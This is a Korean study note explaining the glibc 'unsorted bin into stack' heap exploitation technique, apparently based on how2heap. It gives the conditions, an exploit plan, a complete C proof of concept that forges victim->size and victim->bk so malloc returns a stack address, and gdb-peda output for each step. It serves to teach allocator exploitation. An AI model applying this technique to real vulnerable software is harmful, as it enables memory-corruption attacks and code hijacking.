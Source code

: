 # **Unsorted bin into stack**

## **Conditions**

* tcache 옵션이 해제되어 있어야 함
    * tcache는 malloc과 free 호출 횟수를 줄여 속도를 높이기 위해 고안된 캐싱작업
* 공격자에 의해 Heap 영역 할당 및 해제
* 공격자가 stack 영역에 fake chunk 구조 저장할 수 있어야 함

## **Exploit Plan**

1. 2개의 Heap 영역 할당
1. 1번째 Heap 영역 free 
    * unsorted bin에 저장
1. stack에 fake chunk를 생성
1. victim의 size를 0x20으로 victim->bk를 fake_chunk로 변조
1. fake_chunk(stack) 영역 할당

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main() {
  intptr_t stack_buffer[4] = {0};

  fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t* victim = malloc(0x100);

  fprintf(stderr, "Allocating another chunk to avoid consolidating the top chunk with the small one during the free()\n");
  intptr_t* p1 = malloc(0x100);

  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free(victim);

  fprintf(stderr, "Create a fake chunk on the stack");
  fprintf(stderr, "Set size for next allocation and the bk pointer to any writable address");
  stack_buffer[1] = 0x100 + 0x10;
  stack_buffer[3] = (intptr_t)stack_buffer;

  //------------VULNERABILITY-----------
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->size and victim->bk pointer\n");
  fprintf(stderr, "Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem\n");
  victim[-1] = 32;
  victim[1] = (intptr_t)stack_buffer; // victim->bk is pointing to stack
  //------------------------------------

  fprintf(stderr, "Now next malloc will return the region of our fake chunk: %p\n", &stack_buffer[2]);
  fprintf(stderr, "malloc(0x100): %p\n", malloc(0x100));
}
```

* 2개의 Heap 영역 할당

```
This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.
Allocating the victim chunk
Allocating another chunk to avoid consolidating the top chunk with the small one during the free()
```

* 1번째 Heap 영역 해제

```
Freeing the chunk 0x602010, it will be inserted in the unsorted bin
```

* unsortedbin에 free chunk가 저장됨

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602220 (size : 0x20de0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x602000 (size : 0x110)
```

* stack 영역에 fake chunk 생성

```
Create a fake chunk on the stack
Set size for next allocation and the bk pointer to any writable address
```

* fake chunk(stack)

```
gdb-peda$ x/24gx $rbp-0x30
0x7fffffffe4a0:	0x0000000000000000	0x0000000000000110
0x7fffffffe4b0:	0x0000000000000000	0x00007fffffffe4a0
```

* victim의 size에 0x20, victim의 bk에 stack_buffer 저장

```
Now emulating a vulnerability that can overwrite the victim->size and victim->bk pointer
Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem
```

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x602000            0x0                 0x20                 Freed     0x7ffff7dd1b78    0x7fffffffe4a0 <- fake chunk
```

```
Now next malloc will return the region of our fake chunk: 0x7fffffffe4b0
malloc(0x100): 0x7fffffffe4b0
```

* fake chunk 영역이 할당됨

```
gdb-peda$ x/24gx 0x7fffffffe4b0-0x10
0x7fffffffe4a0:	0x0000000000000000	0x0000000000000110
0x7fffffffe4b0:	0x00007ffff7dd1b78	0x00007fffffffe4a0
```


**References**  
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_into_stack.c>
